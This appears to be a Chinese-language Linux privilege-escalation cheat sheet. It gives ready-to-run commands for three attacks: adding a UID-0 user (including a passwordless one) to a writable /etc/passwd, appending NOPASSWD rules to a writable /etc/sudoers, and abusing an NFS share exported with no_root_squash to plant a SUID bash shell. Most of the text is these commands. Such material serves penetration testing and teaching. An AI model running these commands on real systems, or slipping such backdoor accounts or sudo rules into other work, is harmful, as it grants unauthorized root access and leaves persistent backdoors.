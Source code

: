 src : [https://vulmon.com/exploitdetailsqidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f)

### 可写的/etc/passwd

首先使用以下命令之一生成密码。

```powershell
openssl passwd -1 -salt hacker hacker
mkpasswd -m SHA-512 hacker
python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
```

然后添加用户`hacker`并添加生成的密码。

```powershell
hacker:GENERATED_PASSWORD_HERE:0:0:Hacker:/root:/bin/bash
```

例如：`hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash`

现在可以使用`su`命令和`hacker:hacker`

或者，可以使用以下行添加一个没有密码的虚拟用户。    
警告：你可能会降低机器当前的安全性。

```powershell
echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy
```

注意：在BSD平台上，`/etc/passwd`位于`/etc/pwd.db`和`/etc/master.passwd`，`/etc/shadow`重命名为`/etc/spwd.db`。

文档：
### 可写 /etc/sudoers

```powershell
echo "username ALL=(ALL:ALL) ALL">>/etc/sudoers

# 使用SUDO无需密码
echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers
echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers
```

## NFS根目录压扁

当`/etc/exports`中出现**no_root_squash**时，该文件夹是可共享的，远程用户可以挂载它。

```powershell
# 远程检查文件夹名称
showmount -e 10.10.10.10

# 创建目录
mkdir /tmp/nfsdir  

# 挂载目录
mount -t nfs 10.10.10.10:/shared /tmp/nfsdir    
cd /tmp/nfsdir

# 复制所需的shell
cp /bin/bash . 	

# 设置suid权限
chmod +s bash 	
```
